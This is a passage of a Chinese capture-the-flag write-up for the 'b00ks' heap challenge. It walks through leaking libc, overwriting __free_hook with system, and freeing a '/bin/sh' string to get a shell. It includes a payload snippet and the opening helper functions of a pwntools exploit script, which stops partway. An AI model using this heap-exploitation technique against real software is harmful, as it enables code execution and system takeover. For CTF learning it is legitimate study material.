 5、拿到libc偏移后，就可以计算system、bin/sh、free hook的地址了 

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/one/one16.png?x-oss-process=style/watermark)

6、然后通过修改book1的内容（即将内容写入book2_name地址）。将book2 information的book2_name修改为bin/sh地址，将book2des修改为free_hook地址。然后修改book2的内容为system地址，即向free_hook地址写入system函数地址。

7、然后将book2删除，删除时会首先执行free(book2_name)，也就是执行free(‘/bin/sh’)，而free_hook又被修改成了system，也就是会执行system(‘bin/sh’)了。

```python
payload1 = p64(bin_sh) + p64(free_hook)
change_des(1,payload1)
change_des(2,p64(system_addr))
delete(2)
```

**如图所示**：

![](https://wutongblogs.oss-cn-beijing.aliyuncs.com/blogs/one/one17.png?x-oss-process=style/watermark)

完整exp：

```python

from pwn import *
context(arch="amd64",os="linux",log_level="debug")
def name_1():
	p.recvuntil("Enter author name: ")
	p.sendline("a" * 0x20)
def change_name():
	p.recvuntil("> ")
	p.sendline("5")
	p.recvuntil("Enter author name: ")
	p.sendline("a" * 0x20)

def create_book(size,name,size_des,desc):
	p.recvuntil("> ")
	p.sendline("1")
	p.recvuntil("Enter book name size: ")
	p.sendline(str(size))
	p.recvuntil("Enter book name (Max 32 chars): ")
	p.sendline(str(name))
	p.recvuntil("Enter book description size: ")
	p.sendline(str(size_des))
	p.recvuntil("Enter book description: ")
	p.sendline(str(desc))
def change_des(id,des):
	p.recvuntil("> ")
	p.sendline("3")
	p.recvuntil("Enter the book id you want to edit: ")
	p.sendline(str(id))
	p.recvuntil("Enter new book description: ")
	p.sendline(str(des))

def print_book():
	p.recvuntil("> ")
	p.sendline("4")

def delete(id):
	p.recvuntil("> ")
	p.sendline("2")
	p.recvuntil("Enter the book id you want to delete: ")
	p.sendline(str(id))

p = process("./b00ks")
elf = ELF("./b00ks")
```